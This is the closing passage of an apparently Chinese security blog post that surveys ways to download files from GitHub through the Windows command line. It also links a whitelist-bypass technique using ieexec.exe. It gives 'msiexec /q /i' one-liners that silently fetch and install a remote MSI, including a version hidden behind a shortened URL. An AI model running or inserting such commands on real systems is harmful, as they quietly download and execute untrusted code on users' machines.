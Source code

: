 **注：**

exe需要满足特定格式

详情可参考：

https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/

**注：**

我在Win7下复现失败


## 0x06 小结
---

本文对通过cmd实现从github下载文件的方法做了汇总，最短的实现方式为`msiexec /q /i https://github.com/3gstudent/test/raw/master/test.msi`

结合百度提供的短地址服务( http://dwz.cn/ )，最终做到实现代码为34个字符，代码如下：

`msiexec /q /i http://dwz.cn/6UJpF8`


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)




